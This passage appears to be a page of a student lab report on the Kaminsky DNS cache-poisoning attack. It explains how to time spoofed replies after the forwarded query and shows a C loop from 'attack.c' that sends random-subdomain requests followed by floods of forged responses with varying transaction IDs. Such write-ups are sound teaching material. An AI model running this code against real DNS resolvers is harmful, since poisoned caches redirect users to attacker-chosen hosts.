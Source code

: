 \documentclass[12pt,reqno]{amsart}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
We would like to make use of this attack window as much as possible, notwithstanding Kaminsky attack allows us create more windows with different domain names. We would also like to avoid making unnecessary spoof responses before the request is made in the first place. To illustrate what we mean with this: suppose $A \to B$ is the DNS request from $A$ to $B$, which $B$ has to forward as $B \to C$. Now, before $B \to C$ happens, I should not waste my resources to make $C \to B$ spoof responses. An example of this is given in figure \ref{fig:dnspackets}.

\begin{figure}[h]
\includegraphics[width=\linewidth]{screenshots/attack_information_dnspackets.png}
\caption{1 request and 1 spoof response packet sniffing. Notice how the spoof is sent even before the request is made.}
\label{fig:dnspackets}
\end{figure}


\begin{figure}[h]
\begin{lstlisting}[style=CStyle, firstnumber=66]
while (1) { 
    // Generate a random name 
    for (k=0; k<5; k++)
      name[k] = a[rand() % 26]; 

    // Prepare transaction ids to not waste time with them later 
    for (k=0; k<RESPONSE_COUNT; k++)  
      trn_id_net_orders[k] = htons(k); 
      //trn_id_net_orders[k] = htons((rand() % 7) * 10000 + (rand() % 5536)); 
      
    // Prepare request name
    memcpy(ip_req+REQ_QNAME_OFFSET, name, 5); // update qname
    // Prepare response names
    memcpy(ip_res+RES_QNAME_OFFSET, name, 5); // update qname
    memcpy(ip_res+RES_ANAME_OFFSET, name, 5); // update aname
 
    t1 = clock(); // attack start
    send_raw_packet(ip_req, n_req); // Send request
    sleep(0.05); // wait for a bit
    
    // Send responses
    for (k=0; k<RESPONSE_COUNT; k++) { 
      memcpy(ip_res+RES_TRNID_OFFSET, &trn_id_net_orders[k], 2); //update trn id
      send_raw_packet(ip_res, n_res);   
    }
    t2 = clock() - t1;  // attack end
    
    printf("%.*s.example.com\t%d responses in %f ms\n", 5, name, 
      RESPONSE_COUNT, (float)(t2 * 1000 / CLOCKS_PER_SEC));

    #if CONTROLLED
    printf("Try again? Press <ENTER>\t");
    getc(stdin);
    #endif

    
  }
\end{lstlisting} 
\caption{Inside the while loop of \code{attack.c}.}
\label{lst:atk}
\end{figure}
\end{document}
